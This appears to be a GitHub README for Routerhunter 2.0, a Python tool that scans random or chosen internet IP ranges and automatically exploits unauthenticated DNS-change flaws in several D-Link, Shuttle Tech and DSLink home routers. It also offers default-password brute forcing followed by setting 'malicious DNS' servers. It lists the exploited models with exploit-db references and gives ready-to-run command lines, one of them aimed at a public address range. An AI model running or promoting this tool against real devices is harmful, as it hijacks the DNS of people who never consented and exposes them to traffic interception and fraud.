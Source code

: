 # Scanner Routerhunter 2.0
 Tool used to find vulnerable routers and devices on the Internet and perform tests

```
	          _	          _           _		   		   
  ___ ___ _ _| |_ ___ ___| |_ _ _ ___| |_ ___ ___ 
 |  _| . | | |  _| -_|  _|   | | |   |  _| -_|  _|
 |_| |___|___|_| |___|_| |_|_|___|_|_|_| |___|_|
				       BR - v2.0

 Tool used to find vulnerable routers and devices on the Internet and perform tests.

[ Coded by Jhonathan Davi a.k.a jh00nbr - jhoonbr at protonmail.ch ]
[ fb.com/JhonVipNet - twitter.com/jh00nbr - github.com/jh00nbr/ - blog.inurl.com.br - www.youtube.com/c/Mrsinisterboy ]


[!] legal disclaimer: Usage of RouterHunterBR for attacking targets without prior mutual 
consent is illegal. It is the end user's responsibility to obey all applicable local, state and 
federal laws.Developers assume no liability and are not responsible for any misuse or damage caused
by this program.  
```


 * AUTOR: Jhonathan Davi A.K.A jh00nbr
 * EMAIL*: jhoonbr@protonmail.ch
 * Blog: http://blog.inurl.com.br
 * Twitter: https://twitter.com/jh00nbr
 * Facebook: https://fb.com/JhonVipNet
 * Fanpage: https://fb.com/InurlBrasil
 * Github: https://github.com/jh00nbr/
 * Youtube: https://www.youtube.com/c/Mrsinisterboy


### Description
------
  The Routerhunter was designed to run over the Internet looking for defined ips tracks or random in order to automatically exploit the vulnerability DNSChanger on home routers.
  
  The script explores four vulnerabilities in routers
  
 * Shuttle Tech ADSL Modem-Router 915 WM / Unauthenticated Remote DNS Change Exploit            
  reference: http://www.exploit-db.com/exploits/35995/

 * D-Link DSL-2740R / Unauthenticated Remote DNS Change Exploit           
  reference: http://www.exploit-db.com/exploits/35917/

 * D-Link DSL-2640B Unauthenticated Remote DNS Change Exploit            
   reference: http://1337day.com/exploit/23302/ 
 * D-Link DSL-2780B DLink_1.01.14 - Unauthenticated Remote DNS Change           
   reference: https://www.exploit-db.com/exploits/37237/ 

 * D-Link DSL-2730B AU_2.01 - Authentication Bypass DNS Change            
   reference: https://www.exploit-db.com/exploits/37240/ 
 * D-Link DSL-526B ADSL2+ AU_2.01 - Unauthenticated Remote DNS Change           
   reference: https://www.exploit-db.com/exploits/37241/ 

 * DSLink 260E - Authenticated routers - DNS Changer - Bruteforce 
   reference: https://www.youtube.com/watch?v=tNjy91g2Rak                             
   http://blog.inurl.com.br/2015/03/dslink-260e-defaut-passwords-dns-change_17.html 

### Requeriments
```
import sys, os, argparse, itertools, requests, random, time, threading, base64, socket
from datetime import datetime
```

### Usage

```
  -range 192.168.1.0-255, --range 192.168.1.0-255  Set range of IP
  -bruteforce, --bruteforce                        Performs brute force with users and passwords standards, and soon    after defines the malicious DNS.
  -startip 192.168.*.*, --startip 192.168.*.*      Start - IP range customized with wildcard / 201.*.*.*
  -endip 192.168.*.*, --endip 192.168.*.*          End - IP range customized with wildcard / 201.*.*.*
  -dns1 8.8.8.8, --dns1 8.8.8.8                    Define malicious dns1
  -dns2 8.8.4.4, --dns2 8.8.4.4                    Define malicious dns2
  --threads 10                                     Set threads numbers
  -rip, --randomip                                 Randomizing ips routers
  -lmtip 10, --limitip 10                          Define limite random ip
```

### Commands

```
Random ips
python routerhunter.py --dns1 8.8.8.8 --dns2 8.8.4.8 --randomip --limitip 10 --threads 10                      
python routerhunter.py --dns1 8.8.8.8 --dns2 8.8.4.8 -rip -lmtip 10 --threads 10

```


```
Scanner in range ip:
python routerhunter.py --dns1 8.8.8.8 --dns2 8.8.4.8 --range 192.168.25.0-255 --threads 10

```

```
IP range customized with wildcard / Ex: --startip 201.*.*.* -  --endip 201.*.*.*
python routerhunter.py --dns1 8.8.8.8 --dns2 8.8.4.8 --startip 192.168.*.* --endip 192.168.*.* --threads 10
```
```
Brute force with users and passwords on routers that requires authentication, forcing alteration of dns - DSLink 260E.
python routerhunter.py --dns1 8.8.8.8 --dns2 8.8.4.4 --range 177.106.19.65-70 --bruteforce --threads 10
```

### Screenshots 
![rip](http://i.imgur.com/CAhvz1T.png)
![range](http://i.imgur.com/sA1IKTp.png)
![brute](http://i.imgur.com/IhtaZhw.png)
